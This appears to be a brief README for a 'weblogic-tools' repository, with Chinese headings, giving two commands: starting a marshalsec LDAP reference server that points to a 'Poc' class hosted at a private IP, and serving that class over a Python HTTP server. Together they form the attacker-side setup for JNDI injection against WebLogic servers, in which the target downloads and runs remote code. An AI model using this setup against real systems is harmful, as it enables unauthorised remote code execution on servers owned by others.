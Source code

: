 # weblogic-tools
weblogic-tools

启动 JNDI 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.1.6:9999/#Poc 1099
```

启动 HTTP 服务

```
python -m http.server 9999
```